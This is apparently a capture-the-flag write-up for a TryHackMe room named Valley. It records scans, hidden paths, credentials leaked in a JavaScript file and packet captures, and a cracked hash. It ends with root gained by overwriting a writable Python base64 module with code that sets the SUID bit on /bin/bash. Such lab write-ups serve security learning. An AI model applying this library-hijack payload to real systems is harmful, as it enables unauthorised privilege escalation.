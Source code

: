 # Link
- https://tryhackme.com/room/valleype

# Info

## IP = $IP

## Creds
- valleyDev:ph0t0s1234
- siemDev:california
- valley:liberty123

# Ports

## 22
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c2842ac1225a10f16616dda0f6046295 (RSA)
|   256 429e2ff63e5adb51996271c48c223ebb (ECDSA)
|_  256 2ea0a56cd983e0016cb98a609b638672 (ED25519)
```

## 80
```
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

### Web Exploiting
- Sell images

### URLs
- http://$IP/pricing/pricing.html
- http://$IP/static/18
- http://$IP/gallery/gallery.html
- _static_ has a id...

### `gobuster` on _http://$IP/static_
- http://$IP/static/00
```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

### checking new dir
- _http://$IP/dev1243224123123/_
- login page
- in _dev.js_ file, I found another path
    ```
        if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    ```
    - /dev1243224123123/devNotes37370.txt
    ```
    dev notes for ftp server:
    -stop reusing credentials
    -check for any vulnerabilies
    -stay up to date on patching
    -change ftp port to normal port
    ```

## Searching for _FTP server_
- `nmap -p- -T5 $IP`
- port is the devNotes number (37370)

## 37370
- 3 wireshark files
- in _siemHTTP2_
```
uname=valleyDev&psw=ph0t0s1234&remember=on
``` 
- creds for login via `ssh`


# PrivEsc

## in _/var/www/html/dev1243224123123/old;js_
```
const users = {
  "john": {
    username: "john",
    password: "replace",
    email: "john@example.com",
    age: 25,
    country: "USA"
  },
  "jane": {
    username: "jane",
    password: "replace",
    email: "jane@example.com",
    age: 30,
    country: "Canada"
  },
  "bob": {
    username: "bob",
    password: "replace",
    email: "bob@example.com",
    age: 40,
    country: "UK"
  }
};
```

## looking for _/home/valleyAuthenticator_
- transfering to attacker's machine
```
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/TheValley]
└─$ strings valleyAuthenticator | grep -i pass -B 15 -A 15
p9dJ
kx!S
;B@l
~`g{
xpbT
A [3    <
?ATs
-^;x&
e6722920bab2326f8217e4
```

- _https://crackstation.net/_ for _e6722920bab2326f8217e4_: `liberty123`

## after changing for `valley`'s account
- interesting file: _photosEncrypt.py_, owned by root
- import _base64_ is a module that is writeable...
```
valley@valley:~$ ls -la /usr/lib/python3.8/base64.py 
-rwxrwxr-x 1 root valleyAdmin 20382 Mar 13  2023 /usr/lib/python3.8/base64.py
```
- write this file to:
```python
#! /usr/bin/python3.8

import os
os.system('chmod u+s /bin/bash') 
```
```bash
valley@valley:~/Desktop$ python3 /photos/script/photosEncrypt.py
chmod: changing permissions of '/bin/bash': Operation not permitted
Hello world!
Traceback (most recent call last):
  File "/photos/script/photosEncrypt.py", line 18, in <module>
    with open(output_path, "wb") as output_file:
PermissionError: [Errno 13] Permission denied: '/photos/photoVault/p1.enc'
Error in sys.excepthook:
Traceback (most recent call last):
  File "/usr/lib/python3/dist-packages/apport_python_hook.py", line 72, in apport_excepthook
    from apport.fileutils import likely_packaged, get_recent_crashes
  File "/usr/lib/python3/dist-packages/apport/__init__.py", line 5, in <module>
    from apport.report import Report
  File "/usr/lib/python3/dist-packages/apport/report.py", line 21, in <module>
    from urllib.request import urlopen
  File "/usr/lib/python3.8/urllib/request.py", line 88, in <module>
    import http.client
  File "/usr/lib/python3.8/http/client.py", line 71, in <module>
    import email.parser
  File "/usr/lib/python3.8/email/parser.py", line 12, in <module>
    from email.feedparser import FeedParser, BytesFeedParser
  File "/usr/lib/python3.8/email/feedparser.py", line 27, in <module>
    from email._policybase import compat32
  File "/usr/lib/python3.8/email/_policybase.py", line 7, in <module>
    from email import header
  File "/usr/lib/python3.8/email/header.py", line 20, in <module>
    from email import charset as _charset
  File "/usr/lib/python3.8/email/charset.py", line 18, in <module>
    from email.encoders import encode_7or8bit
  File "/usr/lib/python3.8/email/encoders.py", line 15, in <module>
    from base64 import encodebytes as _bencode
ImportError: cannot import name 'encodebytes' from 'base64' (/usr/lib/python3.8/base64.py)

Original exception was:
Traceback (most recent call last):
  File "/photos/script/photosEncrypt.py", line 18, in <module>
    with open(output_path, "wb") as output_file:
PermissionError: [Errno 13] Permission denied: '/photos/photoVault/p1.enc'

valley@valley:~/Desktop$ /bin/bash -p
bash-5.0# whoami
root
```